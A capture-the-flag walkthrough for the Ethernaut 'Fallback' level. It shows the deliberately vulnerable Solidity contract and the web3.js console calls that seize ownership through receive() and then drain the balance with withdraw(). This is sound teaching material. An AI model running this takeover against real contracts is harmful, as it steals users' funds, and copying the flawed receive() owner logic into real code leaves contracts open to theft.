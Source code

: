 # 2. Fallback

Ethernaut2: [Fallout](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Goal of this level

* claim ownership of the contract
* reduce its balance to 0

<details>

<summary>Key  for this problem  🔑</summary>

using `recieve` function

</details>

## You must know before

* Sending transactions using `web3.js` **** \
  ****-> see [here](https://stackoverflow.com/questions/52740950/how-to-send-wei-eth-to-contract-address-using-truffle-javascript-test)
* Understanding concept of `fallback()` and `receive()` function \
  \-> see [here](https://www.youtube.com/watch?v=CMVC6Tp9gq4)

## Walkthrough

{% hint style="info" %}
Don't forget!

Not only do we need to claim **ownership** of the contract, but also we have to **reduce** the **balance** of the contract to `0`!\
\
We first will modify the value of`owner` variable, and then we will **drain** the contract.
{% endhint %}

### 1. Claming Ownership

We first have to modify the value of `owner` variable.

Let's see which functions modify `owner` variable.

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender; // here
}
```

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; // and here
}
```

#### 1) `contribute()` function

Let's check out `contribute` function first.

To modify the value of `owner` variable, we must contribute more than the original owner did.

Let's check how much he contributed!

```javascript
const owner = await contract.owner();

await contract.contributions(owner).then((v) => v.toString());

// '1000000000000000000000'
```

Wow, `1000 ETH`!

It seems even if we have more than `1000 eth`, we won't be  able to pass the require statement.

Let's check out `receive` function for next.

#### 2) `receive()` function

`receive()` function is checking if msg.sender sent over `0 wei`  and if he contributed more then `0 wei`.

Seems we can use both to solve the problem!

#### 3) Let's claim the ownership!

```javascript
// You can send any value between 0 and 0.001 ether
await contract.contribute({ value: 3 });
```

Here we can make our contribution to be bigger than `0`.

Now, let's modify `owner` variable.

```javascript
// Here, since there's no require statement,
// you can send any value bigger than 0.
await contract.sendTransaction({ value: 3 });
```

Because `receive()` function only checks if `msg.value` is bigger than 0 wei and if `msg.sender` contributed more than 0 wei, we can easily satisfy both conditions.

Let's check if it works 😎

```javascript
await contract.owner();
```



### 2. Reducing balance of the contract to 0

```solidity
function withdraw() public onlyOwner {
  payable(owner).transfer(address(this).balance);
}
```

Since now we have **ownership** of the contract, we can **withdraw** all the balance of the contract.

```javascript
await contract.withdraw();
```

Let's check if we successfully drained the contract.

```javascript
await web3.eth.getBalance(contract.address); // 0
```

Done! 😎

